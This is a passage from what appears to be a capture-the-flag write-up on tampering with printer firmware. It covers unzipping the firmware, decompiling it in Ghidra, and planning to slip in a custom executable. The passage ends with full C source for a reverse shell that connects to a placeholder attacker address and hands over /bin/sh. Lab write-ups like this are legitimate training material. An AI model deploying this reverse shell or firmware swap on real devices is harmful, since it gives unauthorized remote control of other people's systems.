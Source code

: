 The blob of data, when using `file` against it, shows that it is:

`./printer-firmware: Zip archive data, at least v2.0 to extract, compression method=deflate`

Decompressing it shows that it is an ELF file, and running it simply shows that the firmware is up to date:

`Firmware is fully up to date!`

Since this just looks like C code, let's open it up in Ghidra.

Importing and analyzing it allows me to decompile the software into a super simple main function:

![TEMP](img/obj7/img4.png)

So in theory, it looks like I can just...open a shell. Let's try to insert our own executable!

## Create a reverse shell in C

I found the following blurb of C code that I can use to create a reverse shell. I simply chagned the `REMOTE_ADDR` and `REMOTE_PORT` to more relevant data that I can use to catch the shell.

```C
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

#define REMOTE_ADDR "XXX.XXX.XXX.XXX"
#define REMOTE_PORT XXX

int main(int argc, char *argv[])
{
    struct sockaddr_in sa;
    int s;
    sa.sin_family = AF_INET;
    sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
    sa.sin_port = htons(REMOTE_PORT);
    s = socket(AF_INET, SOCK_STREAM, 0);
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);
    execve("/bin/sh", 0, 0);
    return 0;
}
```
